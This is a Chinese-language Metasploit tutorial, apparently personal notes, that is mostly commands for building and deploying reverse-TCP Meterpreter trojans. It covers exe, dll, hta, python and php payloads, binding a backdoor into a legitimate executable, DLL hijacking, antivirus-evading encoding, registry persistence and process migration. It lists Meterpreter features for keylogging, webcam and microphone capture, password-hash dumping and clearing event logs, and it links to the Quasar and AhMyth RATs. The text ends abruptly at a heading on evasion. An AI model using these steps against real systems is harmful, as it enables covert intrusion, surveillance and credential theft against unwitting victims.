# msf教程

```
attrib +h 应用程序   # 隐藏windows应用程序
```


简单的木马工具，quasar，github地址：https://github.com/quasar/Quasar/releases/tag/v1.4.0，注意需要安装.net，win10自带。

quasar的功能：

-   自启动；
-   键盘记录；
-   进程管理；
-   注册表管理；
-   计划任务管理；
-   文件管理；
-   CommandLine；
-   ……


Android：https://github.com/AhMyth/AhMyth-Android-RAT


metasploit：

```
apt-get update
apt-get upgrade
```

## 生成后门

### x86-windows

```
msfconsole -q   # 表示快速打开，不显示banner信息
use exploit/multi/handler   # 使用这个模块
show payloads   # 查看模块下的所有payload
set payload windows/meterpreter/reverse_tcp   # 为当前的模块设置payload
run/exploit     # 开始监听


使用msfvenom命令生成对应的木马文件：
msfvenom -l format     # 查看木马所支持的文件类型

msfvenom -p windows/meterpreter/reverse_tcp -f exe -a x86 --platform windows -o ./meter_re_tcp.exe lhost=192.168.0.106 lport=4444  # 生成木马文件
	-p  # payload
	-f  # 木马的文件格式
	-a  # 系统的架构
	--platform    # 操作系统
	-o  # 输出文件位置
	lhost  # 本地ip地址
	lport  # 本地端口
```


### x64-windows

```
use exploit/multi/handler   # 使用这个模块
show payloads   # 查看模块下的所有payload
set payload windows/x64/meterpreter/reverse_tcp   # 为当前的模块设置payload
run/exploit     # 开始监听


使用msfvenom命令生成对应的木马文件：
msfvenom -l format     # 查看木马所支持的文件类型

msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -a x86 --platform windows -o ./meter_re_tcp.exe lhost=192.168.0.106 lport=4444  # 生成木马文件
```


为了方便，也可以将上面生成木马的命令写在一个文件当中：

```shell
ip=192.168.0.106
port=4444
arch=x86
platform=windows
format=vbs    # file format
payload=windows/meterpreter/reverse_tcp

# use exploit/multi/handler
out=../../backdoors/meter_re_tcp_vbs
msfvenom -p $payload lhost=$ip lport=$port -f $format -a $arch --platform $platform -o $out
```


也可以将msfconsole中的一些设置写入文件当中，在使用的使用直接使用`msfconsole -r filename`进行读取即可。

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.0.106
set lport 4444
run
```


### msf捆绑木马

```
msfvenom -x    # 将木马绑定到一个可执行文件上面，使用msfvenom查看详细信息

脚本如下：
ip=192.168.0.106
port=4444
arch=x86
platform=windows
format=exe    # file format
payload=windows/meterpreter/reverse_tcp
x=/root/桌面/御剑后台扫描工具.exe   # 如果提示...entry point时，这是可以添加一个-k来解决这个问题，-k原理是在这个软件打开的同时会开一个新的线程来执行我们所捆绑的木马文件，原来的软件不会受到影响。
# use exploit/multi/handler
out=../../backdoors/meter_re_x_yijian.exe
msfvenom -p $payload lhost=$ip lport=$port -x $x -f $format -a $arch --platform $platform -o $out
```


### windows-dll

```
ip=192.168.0.106
port=4444
arch=x86
platform=windows
format=dll    # file format
payload=windows/meterpreter/reverse_tcp
out=../../backdoors/meter_re_.dll
msfvenom -p $payload lhost=$ip lport=$port -f $format -a $arch --platform $platform -o $out
```

windows运行dll文件：

```
rundll32 C:\Users\John\Desktop\meter_re_.dll DllEntryPoint   
# 这里的dllentrypoint是入口函数，在ida中可以看到，当然为了更加的隐蔽，可以将这个命令写入一个脚本文件当中。
# 当然还有更好的方法就是直接将这个dll文件的文件名替换为正常的软件的dll的文件名，这样这个软件启动的时候就会调用这个dll文件了，这就叫做dll文件的劫持
```


### dll劫持

核心思想是使用我们伪造一个与指定软件中dll相同的文件名，将原始的dll改为其它的，然后该软件只要一调用该动态dll动态链接库时，就会先去调用我们的dll，然后我们的dll再去调用原始的dll即可。这里使用的工具是AheadLib工具，https://github.com/Yonsm/AheadLib。

如：一个计算机calc.exe需要调用一个div.dll来执行除法运算，我们可以将我们的木马定义为div.dll，再将原来的div.dll文件名更改为divOrg.dll，这样calc在调用除法运算dll时就会触发我们的木马。


### hta

生成hta木马文件,hta=html application

```
ip=192.168.0.106
port=4444
arch=x86
platform=windows
format=hta-psh    # file format
payload=windows/meterpreter/reverse_tcp
out=../../backdoors/meter_re_x86.hta
msfvenom -p $payload lhost=$ip lport=$port -f $format -a $arch --platform $platform -o $out
```


### 混淆

使用`msfvenom -l encoder`可以查看所支持的编码器。

```shell
ip=192.168.0.106
port=4444
arch=x86
platform=windows
format=exe
encoder=x86/shikata_ga_nai # encode type
i=3 # encode times
payload=windows/meterpreter/reverse_tcp
out=/root/msf-script/backdoors/meter_re_x86_encoder.exe
msfvenom -p $payload lhost=$ip lport=$port -f $format -e $encoder -i $i $format -a $arch --platform $platform -o $out
```


### msfvenom小结

这个工具是msf用来生成木马的命令，其参数如下：

```
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options] <var=val>
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Options:
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --service-name    <value>    The service name to use when generating a service binary
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
        --smallest                   Generate the smallest possible payload using all available encoders
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
    -s, --space           <length>   The maximum size of the resulting payload
        --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
    -i, --iterations      <count>    The number of times to encode the payload
    -c, --add-code        <path>     Specify an additional win32 shellcode file to include
    -x, --template        <path>     Specify a custom executable file to use as a template
    -k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
    -v, --var-name        <value>    Specify a custom variable name to use for certain output formats
    -t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
    -h, --help                       Show this message
```


### meterpreter

```shell
Meterpreter > ?
==========================================
核心命令：
==========================================
命令                           说明
-------                       ------------
?                             帮助菜单
background                    把当前会话挂到后台运行
bg                            background命令的别名
bgkill                        杀死后台meterpreter 脚本
bglist                        列出正在运行的后台脚本
bgrun                         执行一个meterpreter脚本作为后台线程
channel                       显示信息或控制活动频道
close                         关闭一个频道
detach                        分离Meterpreter会话（用于 http/https）
disable_unicode_encoding      禁用 unicode 字符串的编码
enable_unicode_encoding       启用 unicode 字符串的编码
exit                          终止 Meterpreter 会话
get_timeouts                  获取当前会话超时值
guid                          获取会话 GUID
help                          帮助菜单
info                          显示有关 Post 模块的信息
irb                           在当前会话中打开一个交互式 Ruby shell
load                          加载一个或多个 Meterpreter 扩展
machine_id                    获取连接到会话的机器的 MSF ID
migrate                       将服务器迁移到另一个进程
pivot                         管理枢轴侦听器
pry                           在当前会话上打开 Pry 调试器
quit                          终止 Meterpreter 会话
read                          从通道读取数据
resource                      运行存储在文件中的命令
run                           执行一个 Meterpreter 脚本或 Post 模块
secure                       （重新）协商会话上的 TLV 数据包加密
sessions                      快速切换到另一个会话
set_timeouts                  设置当前会话超时值
sleep                         强制 Meterpreter 安静，然后重新建立会话
ssl_verify                    修改 SSL 证书验证设置
transport                     管理运输机制
use                           不推荐使用的load命令别名
uuid                          获取当前会话的 UUID
write                         将数据写入通道

==========================================
Stdapi：文件系统命令
==========================================

命令                           说明
-------                       ------------
cat                           将文件内容读到屏幕上
cd                            切换目录
checksum                      检索文件的校验和
cp                            将源复制到目标
del                           删除指定文件
dir                           列出文件（ls 的别名）
download                      下载文件或目录
edit                          编辑文件
getlwd                        打印本地工作目录
getwd                         打印工作目录
lcd                           更改本地工作目录
lls                           列出本地文件
lpwd                          打印本地工作目录
ls                            列出文件
mkdir                         制作目录
mv                            将源移动到目标
pwd                           打印工作目录
rm                            删除指定文件
rmdir                         删除目录
search                        搜索文件
show_mount                    列出所有挂载点/逻辑驱动器
upload                        上传文件或目录

==========================================
Stdapi：网络命令
==========================================
命令                           说明
-------                       ------------
arp                           显示主机 ARP 缓存
getproxy                      显示当前代理配置
ifconfig                      显示界面
ipconfig                      显示接口
netstat                       显示网络连接
portfwd                       将本地端口转发到远程服务器的端口或者叫将远程服务端口转发到本地端口。
	portfwd 常用来做内网端口的转发，如：portfwd add -l 6666 -p 3389 -r 192.168.0.102，将目标机102的3389端口转发到本地6666端口
resolve                       解析目标上的一组主机名，可以理解为域名解析
route                         查看和修改路由表

==========================================
Stdapi：系统命令
==========================================
命令                           说明
-------                       ------------
clearev                       清除事件日志
drop_token                    放弃任何活动的模拟令牌。
execute                       执行命令
	execute -h # 查看帮助文档
	execute -f notepad  # 打开一个notepad程序
getenv <变量名>                获取一个或多个环境变量值，这种方式一般使用的比较少，更多的是直接使用shell命令进入cmd窗口后使用set命令直接查看所有的环境变量
getpid                        获取当前进程标识符
getprivs                      尝试启用当前进程可用的所有权限
getid                         获取服务器运行的用户的 SID
getuid                        获取服务器运行的用户
kill                          终止进程
localtime                     显示目标系统本地日期和时间
pgrep                         按名称过滤进程
pkill                         按名称终止进程
ps                            列出正在运行的进程
reboot                        重启远程计算机
reg                           修改远程注册表并与之交互
rev2self                      在远程机器上调用 RevertToSelf()，通常用做将用户的权限替换为提升之前的权限
shell                         放入系统命令 shell，使用chcp 65001来解决乱码，本质上是将编码改为utf-8
shutdown                      关闭远程计算机
steal_token                   尝试从目标进程窃取模拟令牌
suspend                       暂停或恢复进程列表
	-c # 即使发生错误也挂着
	-r # 恢复已经挂起的程序

sysinfo                       获取有关远程系统的信息，例如 OS

==========================================
Stdapi：用户界面命令
==========================================
命令                           说明
-------                       ------------
enumdesktops                  列出所有可访问的桌面和窗口站
getdesktop                    获取当前的meterpreter桌面
idletime                      返回远程用户空闲的秒数
keyboard_send                 发送击键
keyevent                      发送按键事件
keyscan_dump                  转储击键缓冲区
keyscan_start                 开始捕获击键
keyscan_stop                  停止捕获击键
mouse                         发送鼠标事件
screenshare                   实时观看远程用户桌面
screenshot                    抓取交互式桌面的截图
setdesktop                    更改meterpreters当前桌面
uictl                         控制一些用户界面组件

==========================================
Stdapi：网络摄像头命令：
==========================================
命令                           说明
-------                       ------------
record_mic                    从默认麦克风录制音频 X 秒
webcam_chat                   开始视频聊天
webcam_list                   列出网络摄像头
webcam_snap                   从指定的网络摄像头拍摄快照
webcam_stream                 从指定的网络摄像头播放视频流

==========================================
Stdapi：音频输出命令：
==========================================
命令                           说明
-------                       ------------
play                          在目标系统上播放波形音频文件 (.wav)

==========================================
Priv：权限提升命令：
==========================================
命令                           说明
-------                       ------------
getsystem                     尝试将您的权限提升到本地系统的权限。

==========================================
Priv：密码数据库命令：
==========================================
命令                           说明
-------                       ------------
hashdump                      转储 SAM 数据库的内容

==========================================
Priv：Timestomp 命令：
==========================================
命令                           说明
-------                       ------------
timestomp                     操作文件 MACE 属性

meterpreter >

```


### msf连接多个木马

```
use exploit/multi/handler
set exitonsession false;  # 允许msf连接多个木马，该指令查看命令为：show advenced
run -j  # 当后台创建一个会话，默默监听所有上线的木马，并为上线的每一个木马创建一个session

sessions  # 可以查看后台所有的会话
sessions -i <session_id>   # 选中相应的会话
backgroud=bg # 将当前会话放在后台执行

jobs -K   # 关闭所有的监听
```




### msf木马持久化

自启动要素（利用的是操作系统自身的特性）：

-   自启动文件夹，可以通过`shell:startup`进入；
-   注册表；


持久化步骤：

1.  首先需要开启一个jobs来监听木马，`run -j`；

    

2.  在meterpreter下面执行`run persistence`来持久化木马，命令如下：

    ```shell
    run persistence -X -U -i 3 -p 4444 -r 192.168.0.106
    ```

    

    本质上是又重新上传一个VBS脚本，然后将该脚本执行，并将启动项写入到注册表当中实现开机自启。

    


在目标机上可以使用autoruns工具进行查看当前系统自启动的程序有哪些。当然也可以使用`shell:startup`命令查看启动文件夹内的内容。


### msf进程迁移

在meterpreter当中可以使用migrate命令来做进程的迁移。当然也可以先试用`ps`命令来获取当前正在执行的线程。一边迁移到的为常用的但是不会影响系统正常执行的程序，比如explorer.exe文件资源管理进程。




这里本质上是将我们的恶意代码从当前程序注入到另外一个程序。


## 漏洞扫描

msf在某一个模块下，使用back可以退回到msf的起始位置。

模块下（如：exploit/multi/handler）的命令行：

```shell
Job Commands
============

    Command       Description
    -------       -----------
    handler       Start a payload handler as job，开启一个新的job，可以理解为开启一个新的监听
    jobs          Displays and manages jobs
    kill          Kill a job
    rename_job    Rename a job

Resource Script Commands
========================

    Command       Description
    -------       -----------
    makerc        Save commands entered since start to a file，将运行过的命令保存到指定的文件当中
    resource      Run the commands stored in a file，从文件当中运行msf指令
```


msf中使用search命令可以查看搜索指定想要查询的漏洞。

```shell
>search [<options>] [<keywords>:<value>]
# 为了提高搜索的效率，我们通常会指定一个keywords作为搜索的条件，如：search name:0708
```



这里以搜索0708漏洞为例：

```
auxiliary   # 辅助的，备用的             以这个字开头的一般都是用来做检测
exploit     # 以这个字开头的就是可以直接进行攻击的
```



搜索到相关的漏洞模块之后，就可以使用指定的模块了。



配置好相关选项：



一般值run之前我们需要先check一下看看目标机上的情况。




### 内网端口转发

当我们的攻击机无法直接与靶机进行通信时，这时就可以使用端口的转发了，这里使用frp进行内网穿透。




### stage && stager

msf的payload一共有三种：

-   single；
-   stage；
-   stager；

其格式为：`windows/[x64/]/stage/stager`，比如：

```
windows/x64/meterpreter/reverse_tcp  # 这里的meterpreter是stage，reverse_tcp是stager

# 这里首先是使用stager（reverse_tcp）反向连接到我们的攻击机，然后在根据stage（meterpreter）返回具体的直接结果，这里的stage不仅有meterpreter，还有vnc、shell等。
```


在具体的模块下面可以使用show payload指令来查看该模块下面所有的payload。

如下面使用不同于meterpreter的stage来返回vnc：




### exploit小结

```
show exploits   # 查看所有可用的exp

tips：可用通过search来搜索指定的exp

在指定模块下面可以直接使用handler进行监听，如下：
handler 
```


### msf-linux攻击

在msf的首页也是可以直接使用payload的，如下：



设置好payload之后可以使用handler直接创建job。



监听设置好之后我们就可以创建木马并在目标机器上执行木马了，记得要给木马执行文件。




### msf生成跨平台脚本木马

```shell
# 生成python脚本代码
msf6 > use payload/python/meterpreter/reverse_tcp
msf6 payload(python/meterpreter/reverse_tcp) > generate -o /root/p.py -o raw  # raw 表示生成源代码，如果使用py格式的则会生成编码后的shellcode

# 生成php脚本代码
msf6 payload(php/meterpreter/reverse_tcp) > generate -f raw -o /root/p.php

生成各种payload：https://www.cnblogs.com/backlion/p/6000544.html
```


### msf混淆模块&Evasion

```shell
msfvenom -p php/meterpreter/reverse_tcp -f raw LHOST=192.168.0.106 LPORT=4444 -o /root/ent.php -e php/base64  # 使用base64对代码进行编码
```


**免杀（evasion）：**

msf自身存在免杀模块，在banner信息下面可以看见：

